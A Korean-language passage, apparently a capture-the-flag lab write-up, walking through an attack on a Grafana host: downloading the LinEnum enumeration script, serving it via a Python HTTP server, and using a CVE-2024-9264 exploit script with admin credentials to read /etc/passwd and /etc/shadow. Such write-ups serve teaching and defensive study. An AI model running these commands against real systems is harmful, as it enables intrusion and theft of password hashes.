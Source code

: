 ## 완전한 공격 시나리오 분석

### 1단계: 공격자 환경 준비 (Kali Linux)

```bash
# LinEnum.sh 다운로드 (시스템 정보 수집 도구)
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O linenum.sh
```

**명령어 분석:**

- `wget`: HTTP/HTTPS로 파일 다운로드하는 도구
- `https://raw.githubusercontent.com/...`: GitHub에서 직접 원본 파일 URL
- `-O linenum.sh`: 다운로드한 파일을 'linenum.sh'로 저장
- **LinEnum**: Linux 시스템의 권한 상승 가능성을 찾는 자동화 스크립트

```bash
# HTTP 웹 서버 실행 (파일 전송 준비)
python3 -m http.server 8000
```

**명령어 분석:**

- `python3 -m http.server`: Python 내장 HTTP 서버 모듈 실행
- `8000`: 리스닝 포트 번호
- **목적**: 현재 디렉토리의 파일들을 HTTP로 제공 (linenum.sh 전송용)

**현재 디렉토리 상태:**

```
/root/exploit/
├── linenum.sh           # 다운로드된 시스템 정보 수집 스크립트
├── CVE-2024-9264.py     # Grafana 익스플로잇 도구
└── requirements.txt     # Python 의존성 파일
```

### 2단계: 타겟 시스템 정보 수집

```bash
# 타겟의 /etc/passwd 파일 읽기 (사용자 계정 정보)
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/etc/passwd')" http://grafana.planning.htb


```

**명령어 분석:**

- `-u admin`: Grafana 사용자명
- `-p 0D5oT70Fq13EvB5r`: Grafana 비밀번호
- `-q`: SQL 쿼리 모드 (DuckDB 쿼리 직접 실행)
- `read_blob('/etc/passwd')`: 파일 내용을 바이너리로 읽는 DuckDB 함수
- **목적**: 시스템 사용자 계정 정보 확인

```bash
# 타겟의 /etc/shadow 파일 읽기 (패스워드 해시 정보)
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/etc/shadow')" http://grafana.planning.htb
```
